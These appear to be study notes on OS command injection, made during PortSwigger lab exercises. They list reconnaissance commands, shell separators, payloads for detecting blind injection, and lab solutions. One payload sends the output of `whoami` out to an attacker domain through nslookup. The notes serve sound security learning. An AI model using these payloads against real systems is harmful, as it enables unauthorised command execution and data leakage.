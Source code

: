 # OS Command Injection Notes

[Portswigger](https://portswigger.net/web-security/os-command-injection)

## Methodology

### Useful commands

|Purpose of command| 	Linux| 	Windows|
|:----|:---|:----|
|Name of current user 	|whoami 	|whoami|
|Operating system 	|uname -a 	|ver|
|Network configuration 	|ifconfig |	ipconfig /all|
|Network connections 	|netstat -an | netstat -an|
|Running processes 	|ps -ef 	|tasklist |

### Detecting blind OS command injections

**Command to detect using time delays**

```
& ping -c 10 127.0.0.1 &
```

**Command to detect by redirecting output**

```
& whoami > /var/www/static/whoami.txt &
```

Afterwards go to the /whoami/txt to determine if you did write it to the server

**Command to detect with out of band interaction**

```
& nslookup `whoami`.kgji2ohoyw.web-attacker.com &
```

### Ways of injecting OS commands

- &
- &&
- |
- ||

Separators that work only on Unix based systems
- ;
- Newline (0x0a or \n)

Unix inline execution syntax
- \`\`
- $()


## Labs Walkthrough

### OS command injection, simple case

- use the check stock level, intercept and change the storeID parameter with `1|whoami`

### Blind OS command injection with time delays

- use burp suite to intercept and modify the request that submits the feedback
- modify the email parameter with `email=x||ping+-c+10+127.0.0.1||`
